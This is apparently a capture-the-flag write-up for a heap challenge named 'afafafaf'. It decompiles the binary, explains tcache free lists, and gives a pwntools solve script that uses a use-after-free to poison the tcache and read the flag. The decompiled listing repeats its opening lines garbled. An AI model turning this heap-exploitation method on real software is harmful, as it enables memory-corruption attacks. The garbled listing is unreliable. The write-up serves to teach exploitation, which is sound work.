 ```yaml
---
description: UAF tcache poisoning
---
```


# afafafaf

## Problem

<details>

<summary>Description</summary>

Gemastik champ should know how heap work

`nc 157.230.247.65 9001`

FROM ubuntu:16.04

</details>

<details>

<summary>tldr;</summary>

1. Use After Free (UAF) vulnerability that allow us to write to a free’d chunk
2. overwrite free’d chunk metadata to poison the tcache to point to flag address
3. Request malloc twice, once for the previously free’d chunk, second for the poisoned tcache that points to the flag address
4. read the contents of the third malloc (read the flag)

</details>

## Solution

### Analysis

Given a binary _<mark style="color:green;">**a.out**</mark>_, the first thing we will do is to check the binary type and its security implementation.

<pre class="language-bash"><code class="lang-bash">$ file a.out               
<strong>a.out: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6906bdcafb119ccd3e31b4c6839966c395ece466, not stripped
</strong><strong>
</strong><strong>$ checksec --file=a.out    
</strong>RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable    FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   88 Symbols        No    0               3     a.out
</code></pre>

basic analysis summary:

* _<mark style="color:green;">**x64 least-bit ELF**</mark>_ binary
* _<mark style="color:green;">**dynamically linked**</mark>_, so it’ll depend on system library
* _<mark style="color:red;">**not stripped**</mark>_, it’ll be easier for us to reverse engineer
* _<mark style="color:green;">**Full RELRO**</mark>_, means that the GOT entry table is not writable
* _<mark style="color:red;">**No Stack Canary**</mark>_, means no additional checks if the stack is overflown
* _<mark style="color:green;">**NX enabled**</mark>_, means the stack is not executable
* _<mark style="color:green;">**PIE enabled**</mark>_, means that the base address of the program is randomized for each running processes

Next, let’s try to decompile the binary, below is the relevant code snippet that ghidra has decompiled.

<details>

<summary><em><mark style="color:green;">solvthistak()</mark></em></summary>

{% code lineNumbers="true" %}
```c
void solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choivoid solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choivoid solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choice;
  int id_num;
  undefined id_string [8];
  undefined8 local_10;
  
  
  do {
    while( true ) {
      while( true ) {
        while( true ) {
          menu();
          puts("[1]add / [2]delete / [3]read / [4]write");
          printf("> ");
          iVar1 = __isoc99_scanf("%d",&choice);
          if (iVar1 == 1) break;
          _IO_getc(stdin);
          puts("errno.");
        }
        if (choice != 1) break;
        id_num = getid(id_string);
        if (id_num != -1) {
          pop4heap(id_num);
          printf("[+] %s = malloc(0x50);\n",id_string);
          malloc = ::malloc(0x50);
          (&address)[id_num] = malloc;
        }
      }
      if (choice != 2) break;
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] free(%s);\n",id_string);
        free((void *)(&address)[id_num]);
        push2heap(id_num);
      }
    }
    if (choice == 3) {
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] puts(var %s);\n",id_string);
        printf("[+] %s\n",(&address)[id_num]);
      }
    }
    else if (choice == 4) {
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] gets( %s, 0x10);\n",id_string);
        printf("> ");
        read(0,(void *)(&address)[id_num],0x10);
        puts("[+] OK.");
      }
    }
    else {
      puts("Invalid choice.");
    }
  } while( true );
}
```
{% endcode %}

</details>

In an essence, this code will loop over through its execution and prompt user with an input that allows:

1. calls 80 bytes of malloc and saves up to chunk address in global array which is identified with (Q, W, E) respectively using the _<mark style="color:green;">**getid()**</mark>_ function
2. delete (or rather free) chunk of malloc allocation
3. read the contents of the chunk
4. fill and edit the user data within that chunk allocation

The bug here lies within the 4th command –write to user data–, the program doesn’t do any checks to disallow write to a free’d chunk thus enabling a Use After Free vulnerability allowing us to do a tcache poisoning attack with manipulating the free’d chunk metadata.

The way this works is because tcache forms a linked list to keep track of free’d chunks. Below is a simplified diagram I made to illustrate and hopefully make it easier to understand:

<figure><img src="../../../.gitbook/assets/tcache-diagram.drawio (1).png" alt=""><figcaption><p>heap after initial free</p></figcaption></figure>

because tcache always points to the last free’d chunk. It means if next we free chunk _<mark style="color:green;">**b**</mark>_, the will points to _<mark style="color:green;">**b**</mark>_, but how the tcache will know a chunk is also free and is available to use next?&#x20;

this is where the _<mark style="color:green;">**fd**</mark>_ metadata comes to play, upon freeing chunk _<mark style="color:green;">**b**</mark>_, the heap manager assume that the user data of that chunk is no longer in use and thus are able to use those overwrite those section with useful metadata to store useful data, such as the _<mark style="color:green;">**fd**</mark>_ pointer. This way, when chunk _<mark style="color:green;">**b**</mark>_ is being free’d, it will store wherever the current tcache is pointing to (in this case chunk _<mark style="color:green;">**a**</mark>_) to its _<mark style="color:green;">**fd**</mark>_ metadata of the chunk that is being free’d (in this case chunk _<mark style="color:green;">**b**</mark>_). Next, the heap manager will replace the tcache pointer so it will point to the chunk that is just being free’d. The heap now roughly looks as follows:

<figure><img src="../../../.gitbook/assets/sadasdasd.png" alt=""><figcaption><p>heap after another free</p></figcaption></figure>

Next, if the program asks for another malloc allocation, the heap manager will check what the tcache is pointing to, if its a _<mark style="color:red;">**NULL**</mark>_, then it will allocate a new chunk to be used, however if the tcache contain a pointer, then it will use an address pointed by it and reuse the it as a new chunk returned by malloc.

<figure><img src="../../../.gitbook/assets/asdasda.png" alt=""><figcaption><p>heap condition after free followed by malloc</p></figcaption></figure>

The tcache will then, overwrite its pointer to whatever the _<mark style="color:green;">**fd**</mark>_ points at. If it's _<mark style="color:red;">**NULL**</mark>_ (or not pointing to anything), then there’s no free chunks available anymore.

_Disclaimer: the heap manager is very complex, and there are a lot of types of bin exist and the flow of free and malloc allocation of the heap depends on some factor one of which is the size of the malloc. In this case it will use the tcache bin, but for bigger allocation it will use another type of bin that works in a very different way. to read more about this follow this link:_ [_heap-bins_](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

<details>

<summary><em><mark style="color:green;">setup()</mark></em></summary>

{% code lineNumbers="true" %}
```c
void setup(void){
  FILE *__stream;
 
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __stream = fopen("flag.txt","r");
  flag = malloc(0x50);
  if (__stream == (FILE *)0x0) {
    puts("yah error ngab");
    exit(1);
  }
  fread(flag,1,0x50,__stream);
  fclose(__stream);
  malloc(0x100);
  return;
}
```
{% endcode %}

</details>

The above function reads the flag into the binary and saves it in the heap memory. We can check this by using _<mark style="color:green;">**gdb-pwndbg**</mark>_ `vis_heap_chunks`

<figure><img src="../../../.gitbook/assets/Screenshot 2023-07-03 113922.png" alt=""><figcaption><p>flag heap</p></figcaption></figure>

### Exploitation

with this we can get an attack vector idea as follows:

1. Request a malloc allocation and free it
2. Edit the first 8 bytes –––the _<mark style="color:green;">**fd**</mark>_ metadata––– of the free’d chunk to a pointer to flag chunk, manipulating tcache into thinking that there’s another free chunk and will allocate into that address that the _<mark style="color:green;">**fd**</mark>_ points to next after the current chunk has been allocated.&#x20;
3. Request an allocation that will allocate the first free’d chunk that we just corrupt
4. Request another allocation that because of reason explained above will allocate to the chunk that contains the flag
5. Read the contents of the flag chunk

Initially if we didn’t manipulate the heap should look something like this:

<figure><img src="../../../.gitbook/assets/Untitled Diagram.drawio (1).drawio (3).drawio.png" alt=""><figcaption><p>uncorrupted heap metada</p></figcaption></figure>

Thus if the program calls for another malloc it will reallocate the chunk b and ask for a new chunk address instead. However because we manipulate the _<mark style="color:green;">**fd**</mark>_ it will look something like this:

<figure><img src="../../../.gitbook/assets/Untitled Diagram.drawio (1).drawio (2).png" alt=""><figcaption><p>corrupted heap metadata</p></figcaption></figure>

and in this case, we will set the _<mark style="color:green;">**fd**</mark>_ to point to the address of the flag chunk.

<details>

<summary><em><mark style="color:green;"><strong>Solve Script</strong></mark></em></summary>

{% code title="Exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './a.out_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = '/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '157.230.247.65', 9001

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

def add(id):
    io.sendlineafter(b'>', b'1')
    io.sendlineafter(b':', id.encode())

def delete(id):
    io.sendlineafter(b'>', b'2')
    io.sendlineafter(b':', id.encode())

def read(id):
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b':', id.encode())
    return io.recvline()

def write(id, message):
    io.sendlineafter(b'>', b'4')
    io.sendlineafter(b':', id.encode())
    io.sendlineafter(b'>', message)

# =========================================================
#                         EXPLOITS
# =========================================================
io = start()
rop = ROP(exe)

flag_addr = int(io.recvline()[5:-2], 16) - 0x10
info('flag address: %#x', flag_addr)

add('Q')
delete('Q')
write('Q', flat(flag_addr))

add('W')
add('E')
read('E')

io.interactive()
```
{% endcode %}

</details>

## Flag

<figure><img src="../../../.gitbook/assets/Screenshot 2023-07-03 135324.png" alt="" width="365"><figcaption><p>Gained flag</p></figcaption></figure>

> _**flag{Uaf\_shouldn't\_be\_a\_challenge}**_
